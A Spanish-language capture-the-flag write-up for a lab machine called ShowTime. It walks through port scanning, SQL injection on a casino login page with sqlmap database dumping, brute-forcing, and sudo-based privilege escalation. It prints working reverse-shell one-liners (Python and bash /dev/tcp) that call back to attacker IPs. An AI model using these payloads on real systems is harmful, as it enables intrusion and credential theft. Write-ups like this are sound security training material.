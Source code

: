 # ShowTime
## Reconocimiento
### Nmap
En primer lugar empezamos como de costumbre por un escaneo de puertos, para ver a que nos enfrentamos, que puertos hay abiertos y los servicios de las versiones que estos están sirviendo. Dicho escaneo revela poca cosa, un servidor HTTP en el puerto 80 de título "cs":
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: cs

```
### Casino
Al visitar la página en cuestión nos encontramos con una página de un casino, hay varios juegos y botones pero todos son atrezzo menos el que lleva al panel de inicio de sesión. Examinando el código fuente no veo nada que me llame la atención a priori, y usando whatweb no identifico nada vulnerable por defecto en la página, de modo que vamos a centraros en el formulario de login. 
## Explotación
### SQLi
Tan sólo probando con una comilla en el campo del username me salta un error de mySql, lo que revela que el panel de login es vulnerable a SQLi. Con el primer payload (`' OR '1`) en ambos campos entro, pero no hay ninguna acción para llevar acabo más que cerrar sesión, lo que nos lleva de vuelta al panel de login. Esta vez vamos a probar a atacar el panel con SQLmap, mediante esta línea:
``` bash
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" --dbs --level=5 --risk=3 --forms --batch --threads 10
```
la intención es enumerar las bases de datos contenidas en el sitio, cosa la cual conseguimos, a partir de aquí la idea es continuar enumerando las tablas y columnas hasta llegar a la información real de la base de datos que nos interesa: **users**. 
``` bash
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users --tables --level=5 --risk=3 --forms --batch --threads 10
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users -T usuarios --columns --level=5 --risk=3 --forms --batch --thr
❯ sqlmap -u "http://172.17.0.2/login_page/index.php" -D users -T usuarios --dump --level=5 --risk=3 --forms --batch --threads 10
```
La sucesión de esos tres comandos (evidentemente, explorando entre ellos las columnas y extrayendo la información relevante en el proceso) nos lleva a dar con tres usuarios y sus respectivas contraseñas, con ellas vamos a elaborar dos archivos, username.txt y passwd.txt para realizar un ataque de fuerza bruta con las credenciales obtenidas.
### Revshell
El ataque diccionario no da resultados, de modo que pruebo unas de las credenciales en el panel de login y accedo a una página que no había visto antes, un panel de administración que aparentemente permite la ejecución de cualquier comando Pyhton. Conseguimos fácilmente una reverse shell ejecutando el siguiente comando:
``` python
import os,pty,socket;s=socket.socket();s.connect(("192.168.1.157",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```
## Post-explotación
### Hidden text
Una vez dentro veo que no puedo hacer sudo -l, tampoco usar CURL para instalar LinPEAS y en los permisos SUID no veo nada interesante, tras buscar un rato encuentro un archivo llamado `.hidden_text.txt` en /tmp, el cual contiene una lista de trucos del GTA, con ella voy a intentar hacer bruteforce o bien al usuario joe o al usuario luciano, los cuáles encontré haciendo un cat a `/etc/passwd`. En principio el diccionario no sirve, pero después de atascarme durante un rato se me ocurre probar a pasar la lista a minúsculas, ya que todo esta en mayúsculas, y así obtengo la contraseña para el usuario joe.
### Joe
Al entrar como joe si que puedo lanzar sudo -l, y al hacerlo veo que puedo pivotar fácilmente al usuario luciano con el binario posh.
``` bash
joe@12ef731c3c67:~$ sudo -l
User joe may run the following commands on 12ef731c3c67:
    (luciano) NOPASSWD: /bin/posh
joe@12ef731c3c67:~$ sudo -u luciano /bin/posh
whoami
luciano
```
Aquí al ejecutrar sudo -l de nuevo nos encontramos con un script en que puede ejecutarse como root sin passwd, con lo cuál simplemente tendremos que editarlo para iniciar una nueva shell como root. 
## FF 
En este punto me atasqué durante un rato y me rendí, viendo el [writeup de 4bytes](https://github.com/4bytess/writeups/blob/main/dockerlabs/show%20time.md) entendí que lo que él hace es (ya que no hay editor de texto, que es donde yo me atasqué) utiliza echo para modificar el archivo que tiene permisos, con ``echo "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/172.17.0.1/500 0>&1" > /home/luciano/script.sh``, una vez hecho eso simplemente queda ejecutar el script para ganar una shell root (aunque en su caso el optó por darse una revshell).
